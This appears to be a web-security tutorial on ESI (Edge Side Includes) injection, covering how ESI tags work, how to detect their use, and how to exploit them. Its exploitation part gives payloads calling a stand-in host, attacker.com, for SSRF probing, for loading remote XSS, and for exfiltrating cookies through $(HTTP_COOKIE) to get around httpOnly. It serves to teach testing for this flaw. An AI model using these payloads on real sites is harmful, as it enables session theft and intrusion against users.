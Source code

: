 



### ESI Expressions

Sample ESI tags might look as follows

```html
<esi:include src="/weather/name?id=$(QUERY_STRING{city_id}) />
```

Since cache is about improving performance, and the only content within the static page might be a menu with some cities URL, there’s no need to treat the page as dynamic. On the other hand, it cannot be full y static due to cities menu; thus, ESI tags are there to solve the issue.



#### ESI Detection

In most cases, ESI injection can only be detected using a blind attack approach. It is possible that you might see the following header in one of the application’s responses:

```http
Surrogate-Control: content="ESI/1.0”
```

In such a case, you can suspect that ESI is in use. However, in most cases, there will be no sign of using ESI or not.



In order to detect ESI injection with a blind approach, the user can try to inject tags that cause the proxies to resolve arbitrary addresses resulting in SSRF.

```html
<esi:include src=http://attacker.com />
```



#### ESI Exploitation
For exploitation scenarios, it might be possible to include a HTML file resulting in XSS

```html
<esi:include src=http://attacker.com/xss.html >
```

And the xss.html can just contain code similar to the following

```html
<script>alert(1)</script>
```



One can also try to exfiltrate cookies directly by referring to a special variable:

```
<esi:include src=http://attacker.com/$(HTTP_COOKIE) >
```

Which can bypass the httpOnly flag in case of its presence.

